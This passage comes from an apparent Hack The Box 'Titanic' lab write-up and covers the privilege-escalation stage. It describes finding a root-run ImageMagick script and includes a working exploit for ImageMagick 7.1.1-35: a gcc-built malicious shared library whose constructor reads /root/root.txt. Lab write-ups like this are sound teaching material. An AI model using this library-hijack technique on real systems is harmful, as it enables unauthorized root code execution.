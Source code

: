 Further analysis is conducted to check if these directory paths appear in any scripts: 
 - `find / -type f ! -path "$HOME/*" ! -path "/proc/*" ! -path "/sys/*" ! -path "/dev/*" -exec grep -l "/opt/app/tickets" {} + 2>/dev/null`
 - `find / -type f ! -path "$HOME/*" ! -path "/proc/*" ! -path "/sys/*" ! -path "/dev/*" -exec grep -l "/opt/app/static/assets/images" {} + 2>/dev/null`

This reveals a bash script named **identify_images.sh** is referencing **/opt/app/static/assets/images** directory.
![Script with Directory](/assets/images/htb_titanic11.png){: w="700" h="400" }

The permissions for **identify_images.sh** script is checked using `ls -lah /opt/scripts/identify_images.sh` and it is observed that anyone can read and execute this script. Upon checking the content of this script, it shows that the script takes all the files with **.jpg** extension from **/opt/app/static/assets/images** and runs [magick identify](https://imagemagick.org/script/identify.php) on each of them, and stores the output to the file **metadata.log**
It is discovered that ImageMagick version 7.1.1-35 is the available binary on the target.
![ImageMagick Version](/assets/images/htb_titanic12.png){: w="700" h="400" }

Searching "ImageMagick 7.1.1-35 vulnerability" on Google leads to [Arbitrary Code Execution in `AppImage` version `ImageMagick`](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8), which is used to retrieve the root flag.
A shared library which will read the contents of the root flag and write it to a file in **/tmp** directory is created in the **/opt/app/static/assets/images** directory. The following command is run to achieve this.
```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/galf.txt");
    exit(0);
}
EOF
```
The root flag is then by accessed by `cat /tmp/galf.txt` .

---
## References
- [Gitea DB Location](https://www.digitalocean.com/community/tutorials/how-to-store-gitea-repositories-on-a-separate-volume#setting-up-a-new-installation-of-gitea)
- [PBKDF2-SHA256 Signature unmatched error](https://hashcat.net/forum/thread-7854.html)
- [Hashcat's Example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [magick identify](https://imagemagick.org/script/identify.php)
- [Arbitrary Code Execution in AppImage version ImageMagick](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

---